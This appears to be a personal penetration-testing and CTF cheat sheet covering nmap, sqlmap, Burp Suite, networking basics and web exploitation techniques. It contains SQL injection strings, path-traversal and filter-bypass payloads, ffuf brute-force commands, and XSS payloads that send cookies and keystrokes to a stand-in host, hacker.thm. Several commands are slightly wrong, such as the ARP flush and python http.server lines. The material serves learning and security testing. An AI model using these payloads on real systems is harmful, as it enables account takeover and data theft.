Port scan (specific)= `-p <port>`   
Port scan (range) = `-p <from>-<to>`  
Port scan (all) = `-p-`  
Activate a script= `—-script=<script_name>`   
Decoy an ip adress =  `-D`  
Fast mode = `-F`
Only open ports = `--open`   
List of hosts to scan = `-iL`

Scan an IPv6 address = `-6` 

Subnet mask with 255.255.255.0 = `<ip>/24`
## SQLMap
[SQLMap](http://sqlmap.org) is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 

### Syntax
`sqlmap <option> <url>`

### Options
`-u` - URL to test for SQL injection  
`-g` - Google Dork to test for SQL injection  
`-p` - Parameter to test for SQL injection  
`-D` - Dump a specific database to enumerate    
`-T` - Dump a specific table to enumerate   
`-C` - Dump specific columns to enumerate   
`--level` - Level of tests to perform (1-5)  
`--dbms` - Force SQLMap to use a specific DBMS  
`--dump` - Dump the contents of the database  
`--os-shell` - Get an OS shell  
`--dump-all` - Dump all databases

# Tools (GUI) 
## Autopsy
`TO BE ADDED`

## Burp 
[Burp Suite](https://portswigger.net/burp), a framework of web application pentesting tools, is widely regarded as the de facto tool to use when performing web app testing

### Setting up Burp Suite
Download Burp Suite [here](https://portswigger.net/burp/communitydownload).  
Burp Suite requires Java JRE in order to run. Download and install Java [here](https://www.java.com/en/download/).

### Gettin' CA Certified
We need to install a CA certificate as BurpSuite acts as a proxy between your browser and sending it through the internet - It allows the BurpSuite Application to read and send on HTTPS data. 

1. Download [Foxy Proxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) in order to fully leverage the proxy, we'll have to install the CA certificate included with Burp Suite (otherwise we won't be able to load anything with SSL).
2. Now click on the extension -> Options -> Add -> Fill in the fields with the following values:  
   1. Title = Burp  
   2. Proxy type = HTTP  
   3. Proxy IP adress or DNS name = `127.0.0.1`  
   4. Port = `8080`  
   5. Username and password is optional.  
3. And hit save.  
4. Finally, click on the FoxyProxy extension icon again and select 'Burp'.
5. With Firefox, navigate to the following address: `http://localhost:8080`
6. Click on 'CA Certificate' in the top right to download and save the CA Certificate.
7. Now that we've downloaded the CA Certificate, move over to the settings menu in Firefox. Search for 'Certificates' in the search bar.
8. Click on 'View Certificates'. Next, in the Authorities tab click on 'Import' and then OK.

### Overview of Features
* **Proxy** - Burp Proxy allows us to intercept and modify requests/responses when interacting with web applications.
* **Target** - How we set the scope of our project. We can also use this to effectively create a site map of the application we are testing.
* **Intruder** - Incredibly powerful tool for everything from field fuzzing to credential stuffing and more
* **Repeater** - Allows us to capture, modify, then resend the same request numerous times. This feature can be absolutely invaluable, especially when we need to craft a payload through trial and error (e.g. in an SQLi -- Structured Query Language Injection) or when testing the functionality of an endpoint for flaws.
* **Sequencer** - Analyzes the 'randomness' present in parts of the web app which are intended to be unpredictable. This is commonly used for testing session cookies.
* **Decoder** - As the name suggests, Decoder is a tool that allows us to perform various transforms on pieces of data. These transforms vary from decoding/encoding to various bases or URL encoding.
* **Comparer** - Comparer as you might have guessed is a tool we can use to compare different responses or other pieces of data such as site maps or proxy histories (awesome for access control issue testing). This is very similar to the Linux tool diff.
* **Extender** - Similar to adding mods to a game like Minecraft, Extender allows us to add components such as tool integrations, additional scan definitions, and more!
* **Scanner** - Automated web vulnerability scanner that can highlight areas of the application for further manual investigation or possible exploitation with another section of Burp. This feature, while not in the community edition of Burp Suite, is still a key facet of performing a web application test.

### Benefits
1. Requests will by default require our authorization to be sent.
2. We can modify our requests in-line similar to what you might see in a man-in-the-middle attack and then send them on.
3. We can also drop requests we don't want to be sent. This can be useful to see the request attempt after clicking a button or performing another action on the website. 
4. And last but not least, we can send these requests to other tools such as Repeater and Intruder for modification and manipulation to induce vulnerabilities

### Notes
* URL Encode with Burp Suite: `Ctrl + U` to make a payload safe to send.
* Intruder attack types:
  * **Sniper**: Sends a single request to each selected item, typically used for targeted attacks. (e.g. a password bruteforce if we know the username)
  * **Battering ram**: Sends multiple identical requests to selected items, ideal for brute force attacks.
  * **Pitchfork**: Sends a combination of two payloads, one to the first item and another to the second item, useful for testing parameter-level vulnerabilities. (e.g. we know the username and password for a user)
  * **Cluster bomb**: Sends multiple payloads to each selected item, useful for discovering new vulnerabilities. (tries every combination of values)
* Python modules can be installed from the BApp Store, by downloading [Jython Jar file](https://www.jython.org/download) and placing it in the extender -> options -> python environment.
* Extensions can be created using the [Burp Extender API](https://portswigger.net/burp/extender/api) with either Java, Python or Ruby.

## Nessus
[Nessus](https://www.tenable.com/products/nessus) is a GUI based vulnerability scanner

### Download and installation
1. Click [here](https://www.tenable.com/products/nessus/nessus-essentials) and register an account.
2. Download the Nessus-#.##.#-debian6_amd64.deb file
3. Navigate to the download and run the following command: `sudo dpkg -i package_file.deb`
4. Start the nessus service wit the command: `sudo /bin/systemctl start nessusd.service` 
5. Open up Firefox and goto the following URL: `https://localhost:8834/` (Accept risk in case you get prompted)
6. Choose "Nessus Essentials" and click next. Skip when asked for a activation code
7. Login with your account
8. Wait for installation and then login again

### Navigation and Scans
Launch a scan = Hit the "New Scan"    
Side menu option that allows us to create custom templates = Policies    
Change plugin properties such as hiding them or changing their severity = Plugin rules  

### Scans


## Wireshark
[Wireshark](https://www.wireshark.org) is a tool used for creating and analyzing PCAPs (network packet capture files)  

Since this section is very large, I've created an individual page for this, which can be found inside this repository by clicking [here](More/Wireshark/README.md).


# Text Editors
## Nano
[Nano](https://nano-editor.org) is an easy to use command line text editor  

### Shortcuts
`^G` Display help text.  
`^O` Write the current file to disk  
`^X` Exit nano.  
`^T` Invoke spellc­heck, if installed.  
`^Y` Next screen.  
`^V` Previous screen.  
`^L` Refresh (force redraw) current screen.  
`^J` Justify current paragraph. (Join together broken lines of text until double newline is encoun­tered.)  
`^W` Search for a string or regular expres­sion.  
`^\` Search and replace a string or regular expres­sion  

## Vim
[Vim](https://www.vim.org) is a free and open-source, screen-based and highly customizable text editor program for Unix

### Modes
Generally speaking, there are three basic modes in Vim:

`Command mode` – allows you to run commands (Default).  
`Insert mode` – allows you to insert/write text.  
`Visual mode` – visual text selector.  

### Basic keybinds
`h` – move the cursor left  
`j` – cursor down  
`k` – cursor up  
`l` – move the cursor right  
`i` – enter the insert mode  
`esc` – enter the command mode  
`$` – move to the end of the line  
`yy` – copy a line  
`p` – paste  
`d` – delete a line  
`x` – cut a character  

### Basic commands:
`:q` – quit  
`:wq` – write & quit  
`:q!` – quit without saving  
`/word` – search for ‘word’ in the document  
`:vimgrep` – grep integration in Vim (allows to search in multiple files)

Find other very usefull commands [here](/More/VIM/README.md), or a full cheatsheet [here](https://vim.rtorr.com).

# Cryptology
Cryptography in Cryptology is used to protect confidentiality, ensure integrity, ensure authenticity.

## Generate keys
To generate a private key we use the following command (8912 creates the key 8912 bits long):  
`openssl genrsa -aes256 -out private.key 8912`

To generate a public key we use our previously generated private key:  
`openssl rsa -in private.key -pubout -out public.key`

Lets now encrypt a file (plaintext.txt) using our public key:  
`openssl rsautl -encrypt -pubin -inkey public.key -in plaintext.txt -out encrypted.txt`

Now, if we use our private key, we can decrypt the file and get the original message:  
`openssl rsautl -decrypt -inkey private.key -in encrypted.txt -out plaintext.txt`

# Networking  
This section will cover the basics of networking, such as IP addresses, ports, protocols, etc.

## IP
An IP address is a unique address that identifies a device on the internet or a local network. IP stands for "Internet Protocol," which is the set of rules governing the format of data sent via the internet or local network.

Example: 192.168.1.204

**Reserved local IP addresses**  
192.168.1.0 = The network address  
192.168.1.1 = The default getaway (router)  
192.168.1.255 = The broadcast address  

If you send something to the broadcast address, the message will be broadcasted to everybody else on the network.

### IPv4
IP addresses consists of 32 bits:   
11000000.10101000.00000001.11001100 = 192.168.1.204

Or in hex  
c0.a8.01.cc = 192.168.1.204

So a full IP address is made up by 8x4 bits(32-bits), where they are seperated by a dot after every 8 bits meaning there are 4 groups which is also called "octets". 

Since an octet consists of 8 bits and there are 4 octets, a valid IP address can only be a number between 0 and 255, meaning it can be 256 different numbers:  
(0-255).(0-255).(0-255).(0-255)

This makes the IP pool to have 2^32 = 4,294,967,296 different IP addresses that can be assigned.

## The router
One of the primary jobs of a router is to assign IP addresses to the computers on a home network. The router has a “pool” of IP addresses that it keeps track of.   
When a computer connects to it and asks for an IP address, the router picks an IP address from the pool and assigns it to the computer. The router makes sure that two computers are not assigned the same IP address. This process of computers asking for an IP address from the router is called “dynamic” IP address assignment. It uses a network protocol called DHCP (Dynamic Host Configuration Protocol).

When a host wants to connect to another host on a completely different IP outside the network, the host calls the default getaway(the router) for help. 

The default getaway: 192.168.1.1

## IPv4 Classes
| Class | Range | Subnet | Number of networks | Usage | For |
|---|---|---|---|---|---|
| A | 1.0.0.0 - 126.255.255.255 | 255.0.0.0 | 16,777,214 | Host Assigning | Big Companies and Government |
| B | 128.0.0.0 - 191.255.20.0 | 255.255.0.0 | 65,534 | Host Assigning | Organizations |
| C | 192.0.0.0 - 223.255.255.0 | 255.255.255.0 | 254 | Host Assigning | Networks with few hosts |
| D | 224.0.0.0 - 239.255.255.255 |  |  | Special Purpose | Multicasting applications |
| E | 240.0.0.0. - 255.255.255.255 |  |  | Special Purpose | Experimental(Illegal) |

**Notes**  
- 127.0.0.0 is missing from the IP classes (16 million addresses) because they are loopback addresses on your local device. Normally used for network testing
- Class C gives us the the most networks and smaller hosts per network. 

## Subnetting
### Subnet mask
A subnet mask can look like this:  
255.255.255.0

If there is a 255, then the corresponding octet in the IP address will stay the same, but if the number is 0, then that octet can anything in between 0-255. Example:  
Subnet mask = **255.255.255**.0  
IP address = **192.168.1**.204

The first 3 octets of the IP address 192.168.1.* will stay the same where the last octet "*" in our case is 204, which in fact is valid since the number can be anything in between 0-255

So the octets that never change is called the "Network portion" where the octet on a subnet mask zero is called the "Host".

### IANA
IANA assigns IP addresses to a company. For example, IBM have the network range 9.0.0.0 which is a class A IP address. This gives the company the ability to slice up a network with another subnet mask, since the subnet mask for the Class A is only a default or a minimum they have to have. Example

IP = 9.1.4.0  
Subnet mask = 255.255.255.0  
= 256 other networks

The **Class A** network became a **Classless** network (when you cut up a network using a different subnet mask). Nowadays, we mainly do classles networks to take advantage of the IP addresses we need to use.

So in other words, big and massive networks can become into a smaller network. 

## Address Resolution Protocol (ARP)
Address Resolution Protocol (ARP) is a protocol or procedure that connects an ever-changing Internet Protocol (IP) address to a fixed physical machine address, also known as a media access control (MAC) address, in a local-area network (LAN)

So if the IP is known but the MAC adress is not, a request is broadcasted to every device on the network in order to match an IP address to its corresponding MAC address. This record is then maintained and saved to a table called ARP cache.

An ARP request contains the following information:
1. The senders IP address.
2. The senders MAC adress.
3. The IP address we want to learn the MAC address for.

### Dynamic and static records
When a broadcast is made, a dynamic record is made. This can be made by typing the following command:   
`arp-scan -l -I <interface>`

If we have the IP and MAC address values, a manual thus static record can be made. This is done with the command:  
`arp -s <IP_Address> <MAC_Address>`

See all ARP entries with the command:  
`arp -a`

### ARP Poisoning
Since it is possible to manually add entries to an ARP table, a few attack types can be made. These include:
1. Inflating the ARP cache thus making it non-responsive 
2. Change the traffic on a network in order to listen for a traffic coming from a target. (MitM)
3. Changing the traffic and completely stopping the traffic for a target device.

**Flushing an ARP cache**  
This can be made with the following command:  
`arp -s -s neigh flush all`

This command will delete every dynamic entry there is. The static ones will not be deleted since we added them manually. To remove the static entries run:   
`arp -d <IP_Address>`

# Web Exploitation
This section will cover the basics of web exploitation. 

## Content Discovery
Content discovery is divided into four parts, being manual, automated, OSINT and subdomain enumeration.

### Manual
1. Check the robots.txt file for disallowed/hiddenpages  
2. Check if there is /admin/ page
3. Check if there is any pages ( `~` and `.bak` and `.swp`
4. Check for git repositories /.git/. [GitTools](https://github.com/internetwache/GitTools) can be used in order to automatically scrape and download a git repository hosted online with a given URL.
5. Check favicon to find the website frameworks (only works if the website developer doesn't replace this with a custom one)  
Run this to find its md5 hash:  
`curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum`  
Check [this](https://wiki.owasp.org/index.php/OWASP_favicon_database) database to find the framework.
6. Check the sitemap file for disallowed/hidden files
7. Curl HTTP Headers to find potential information about the webserver software and possibly the programming/scripting language in use. `curl http://10.10.134.48 -v` The `-v` switch enables verbose mode, which will output the headers
8. Look out for cookie values and change them if possible. Look after Base64 encoded values, JWT tokens, or maybe case folded values that can be used to bypass authentication with simply using casefold(). (Example: 'ß' -> 'ss')
9. Test for Cross-site scripting
10. Test with SQL injection methods
11. Try Flask Template Injection with `{{config}}`
12. Check `.htaccess` file for apache server configurations.

When successfully finding a framework using on of the methods, Framework Stacking can be used afterwards where you check the framework documentation for potential admin portals etc.

### Automated
**What is Automated Discovery?**  
Automated discovery is the process of using tools to discover content rather than doing it manually. This process is automated as it usually contains hundreds, thousands or even millions of requests to a web server. These requests check whether a file or directory exists on a website, giving us access to resources we didn't previously know existed. This process is made possible by using a resource called wordlists.

**What are wordlists?**  
Wordlists are just text files that contain a long list of commonly used words; they can cover many different use cases. For example, a password wordlist would include the most frequently used passwords, whereas we're looking for content in our case, so we'd require a list containing the most commonly used directory and file names.

**Most common Automation tools**   
`ffuf`, `dirb` and `gobuster`.   
I personally use gobuster the most.


### OSINT
**Google Hacking / Dorking**   
Google hacking / Dorking utilizes Google's advanced search engine features, which allow you to pick out custom content.  
| Filter | Example | Description |
|---|---|---|
| site | site:berkankutuk.dk | returns results only from the specified website address |
| inurl | inurl:admin | returns results that have the specified word in the URL |
| filetype | filetype:pdf | returns results which are a particular file extension |
| intitle | intitle:admin | returns results that contain the specified word in the title |  

**Wappalyzer**  
Wappalyzer is an online tool and browser extension that helps identify what technologies a website uses, such as frameworks, Content Management Systems (CMS), payment processors and much more, and it can even find version numbers as well. Read more [here](https://www.wappalyzer.com/).  

**Wayback Machine**  
The Wayback Machine is a historical archive of websites that dates back to the late 90s. You can search a domain name, and it will show you all the times the service scraped the web page and saved the contents. This service can help uncover old pages that may still be active on the current website. Find the website [here](https://archive.org/web/).

### Subdomain enumeration

**SSL/TLS Certificates**  
When an SSL/TLS (Secure Sockets Layer/Transport Layer Security) certificate is created for a domain by a CA (Certificate Authority), CA's take part in what's called "Certificate Transparency (CT) logs". These are publicly accessible logs of every SSL/TLS certificate created for a domain name.
The following site consists of a searchable database of certificates that shows current and historical results. [Link](crt.sh) 

**Search Engines**
The following search would only contain results from subdomain names belonging to domain.com:  
`-site:www.domain.com site:*.domain.com` 

**DNS Bruteforce**  
Bruteforce DNS (Domain Name System) enumeration is the method of trying tens, hundreds, thousands or even millions of different possible subdomains from a pre-defined list of commonly used subdomains. Fot this method, the tool [DNSrecon](https://www.kali.org/tools/dnsrecon/), [Sublist3r](https://github.com/aboul3la/Sublist3r) or [Turbolist3r](https://github.com/fleetcaptain/Turbolist3r) can be used.

**Virtual Hosts**  
Some subdomains aren't always hosted in publically accessible DNS results, such as development versions of a web application or administration portals. Instead, the DNS record could be kept on a private DNS server or recorded on the developer's machines in their /etc/hosts file (or c:\windows\system32\drivers\etc\hosts file for Windows users) which maps domain names to IP addresses. 

Because web servers can host multiple websites from one server when a website is requested from a client, the server knows which website the client wants from the Host header. We can utilise this host header by making changes to it and monitoring the response to see if we've discovered a new website.

Bruteforce by using the following command:   
`ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: {domain}" -u http://{IP} -fs {size}`
### Cookie Manipulation
1. Check for JWT tokens at [JWT.io](https://jwt.io/)
2. Flask cookies can be unsigned by using the following tool [flask-unsign](https://pypi.org/project/flask-unsign/)
3. Flask cookies can be decoded/encoded using the following tool: [Flask Session Cookie Decoder/Encoder](https://github.com/noraj/flask-session-cookie-manager). See example usage [here](https://github.com/Berkanktk/CTFWriteups/tree/master/PicoCTF/Web%20Exploitation/MostCookies)
## SQL Injection
This occurs when user controlled input is passed to SQL queries. As a result, an attacker can pass in SQL queries to manipulate the outcome of such queries. 

If an attacker is able to successfully pass input that is interpreted correctly, they would be able to do the following:

* Access, Modify and Delete information in a database when this input is passed into database queries. This would mean that an attacker can steal sensitive information such as personal details and credentials.
* Execute Arbitrary system commands on a server that would allow an attacker to gain access to users’ systems. This would enable them to steal sensitive data and carry out more attacks against infrastructure linked to the server on which the command is executed.

### Tool for SQL Injection
[sqlmap](https://sqlmap.org/) is a tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. See how to use it [here](#SQLMap).

### Examples of SQL Injection
* `' OR 1=1 --`
* `1' OR 1=1 --`
* `1' OR 1=1#`
* `1' OR 1=1--`
* `1' OR 1=1;--`

## Command Injection
`TO BE ADDED`
## Directory Traversal
`TO BE ADDED`
## Authentication Bypass
These vulnerabilities can be some of the most critical as it often ends in leaks of customers personal data.

### Username Enumeration
A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames.

Website error messages are great resources for collating this information to build our list of valid usernames. 

If you try entering the username admin and fill in the other form fields with fake information, you'll see we get the error An account with this username already exists. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

`berkankutuk@kali:~$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u <website_url> -mr "username already exists"`

In the above example, the `-w` argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. 

The `-X` argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. 

The `-d` argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. 

The `-H` argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. 

The `-u` argument specifies the URL we are making the request to, and finally, the -mr argument is the text on the page we are looking for to validate we've found a valid username.

### Brute Force
A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.

After a successful username enumeration, the usernames can now be used to bruteforce.

When running this command, make sure the terminal is in the same directory as the valid_usernames.txt file. 
`berkankutuk@kali:~$  ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u <website_url> -fc 200`

Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen `W1` for our list of valid usernames and `W2` for the list of passwords we will try. 

The multiple wordlists are again specified with the `-w` argument but separated with a comma.  

For a positive match, we're using the `-fc` argument to check for an HTTP status code other than 200.

### Logic Flaw
Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.

This can be seen here:  
```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
Because the above PHP code example uses three equals signs (===), it's looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting /adMin will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

**Example:**   
A login process: that goes like step 1, 2, 3, 4 but the hacker make it go like 1, 4 which grants the hacker access to another users account.

**Case:**  
Reset another users password and get the link for the reset process to your account. The design flaw here is that you can send a reset password request to support by passing a users name, and then entering your own email to get the link. This can be done by the following command:

`curl '<url>/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=berkan@hacker.com'`

### Cookie Tampering
Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges

The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:
```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```
Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

For this, curl can be used by using:  
`curl -H "Cookie: logged_in=true; admin=true" <ip_address>/cookie-test` 

**Hashed cookies**  
Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text. Here are some examples that you may come across:

| Original String | Hash Method | Output |
|:---:|:---:|:---:|
| 1 | md5 | c4ca4238a0b923820dcc509a6f75849b |
| 1 | sha-256 | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b |
| 1 | sha-512 | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
| 1 | sha1 | 356a192b7913b04c54574d18c28d46e6395428ab |

You can see from the above table that the hash output from the same input string can significantly differ depending on the hash method in use. Even though the hash is irreversible, the same output is produced every time

**Encoded cookies**  
Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible

Take the below data as an example which is set by the web server upon logging in:
`Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/` 

This string base64 decoded has the value of `{"id":1,"admin": false}` we can then encode this back to base64 encoded again but instead setting the admin value to true, which now gives us admin access.
## Insecure Direct Object Reference
Insecure Direct Object Reference(IDOR) is a type of access control vulnerability.

This type of vulnerability can occur when a web server receives user-supplied input to retrieve objects (files, data, documents), too much trust has been placed on the input data, and it is not validated on the server-side to confirm the requested object belongs to the user requesting it.

**An example of this:**  
Imagine you've just signed up for an online service, and you want to change your profile information. The link you click on goes to `http://shop.berkankutuk.dk/profile?user_id=1337`, and you can see your information.

Curiosity gets the better of you, and you try changing the user_id value to 420 instead (`http://shop.berkankutuk.dk/profile?user_id=420`), and to your surprise, you can now see another user's information. You've now discovered an IDOR vulnerability!
## File Inclusion
In some scenarios, web applications are written to request access to files on a given system, including images, static text, and so on via parameters. Parameters are query parameter strings attached to the URL that could be used to retrieve data or perform actions based on user input. The following graph explains and breaking down the essential parts of the URL.


For example, if a user wants to access and display their CV within the web application, the request may look as follows, `http://webapp.thm/get.php?file=userCV.pdf`, where the `file` is the parameter and the `userCV.pdf`, is the required file to access.


File inclusion vulnerabilities are commonly found and exploited in various programming languages for web applications, such as PHP that are poorly written and implemented. The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them. When the input is not validated, the user can pass any input to the function, causing the vulnerability.

If the attacker somehow can write to the server such as `/tmp` directory, then it is possible to gain remote command execution RCE. However, it won't be effective if file inclusion vulnerability is found with no access to sensitive data and no writing ability to the server.

Also known as Directory traversal, a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application. The attacker exploits this vulnerability by manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory.

An example of this can be seen by running this command on a website with this vulnerability:  
`http://webapp.thm/get.php?file=../../../../etc/passwd`

The result would look like this:  


Similarly, if the web application runs on a Windows server, the attacker needs to provide Windows paths

You can find a list of common OS files [here](More/Vulnerabilities/OS-Files/Readme.md)

Most of the time in CTF's the path you are looking for would be: `../../../../etc/passwd`

### NULL BYTE trick
If a path is placing `.php` at the end of your search, then this tells us that the developer specifies the file type to pass to the include function. To bypass this scenario, we can use the NULL BYTE, which is `%00`.

Using null bytes is an injection technique where URL-encoded representation such as `%00` or `0x00` in hex with user-supplied data to terminate strings. You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.:  
`/etc/passwd%00`

**NOTE**: the `%00` trick is fixed and not working with PHP 5.3.4 and above.

### Current Directory trick
Though this can be filtered by the developer. But we can also bypass that by trying the "current directory" trick which looks something like this:  
`/etc/passwd/.`

### Subset string trick
If the developer uses input validation by filtering some keywords, ex. "../", we can bypass this by using:    
`....//....//....//....//....//etc/passwd`  
This works because the PHP filter only matches and replaces the first subset string `../` it finds and doesn't do another pass, leaving:  
`../../../../etc/passwd`

### Including the Directory trick
If the developer forces you to include a directory, you can bypass this by writing the directory and then moving up from there. Ex. if the forced directory is 'language':  
`languages/../../../../../etc/passwd` 

### Remote File Inclusion - RFI
Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into `include` function. One requirement for RFI is that `the allow_url_fopen` option needs to be `on`. 

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

* Sensitive Information Disclosure 
* Cross-site Scripting (XSS)
* Denial of Service (DoS)

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.


**How to**  
1. Create a file somewhere on your local computer. ex "cmd.txt"
2. Open the file and write some code inside it
3. Now create a webserver using python by running: `python3 http.server <port>` in the same path of the file.
4. Now open the browser and enter the http address where you want the attack to direct. This could look like this: `http://10.10.135.181:9001/cmd.txt` 

### Remediation
As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.

### PHP Filters
PHP filters are used to validate and sanitize external input. The filter extension provides a way to validate and sanitize external inputs. The filter extension is not enabled by default, so you need to enable it in the php.ini file.

Filters can be used by using `php://filter`. For example, to base64 encode a file, you can use:  
`php://filter/convert.base64-encode/resource=index.php`

## Cross Site Request Forgery (CSRF)
`TO BE ADDED`
## Cross Site Scripting (XSS)
Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users

Cross-site scripting vulnerabilities are extremely common

### DOM-Based XSS 
DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source

This is when an attack payload is executed by manipulating the DOM (Document Object Model) in the target's browser. This type uses the client-side code instead of server-side code.

**Exploiting the DOM**  
DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

**Example Scenario:**  
The website's JavaScript gets the contents from the window.location.hash parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

**Potential Impact:**
Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

**How to test for Dom Based XSS:**
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as eval()

### Reflected XSS 
This is when a malicious script bounces off another website onto the target's web application or website. Normally, these are passed in the URL as a query, and it's easy as making the target click a link. This type originates from the target's request.

Or in other words, reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

**Example Scenario:**  
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source.

**How to test for Reflected XSS**  
You'll need to test every possible point of entry; these include:
* Parameters in the URL Query String
* URL File Path
* Sometimes HTTP Headers (although unlikely exploitable in practice)

### Stored XSS
As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

**Example Scenario:**  
A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.

**How to test for Stored XSS:**  
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:
* Comments on a blog
* User profile information
* Website Listings

### Blind XSS
Blind XSS is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

**Example Scenario:**
A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

**Potential Impact:**
Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

**How to test for Blind XSS:**
When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [xsshunter](https://xsshunter.com). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

### Payload
In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do, and the modification is the changes to the code we need to make it execute as every scenario is different.

### Some examples of XSS intentions.
**Proof Of Concept:**  
This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:  
`<script>alert('XSS');</script>`

**Session Stealing:**  
Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.  
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

**Key Logger:**  
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.  
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

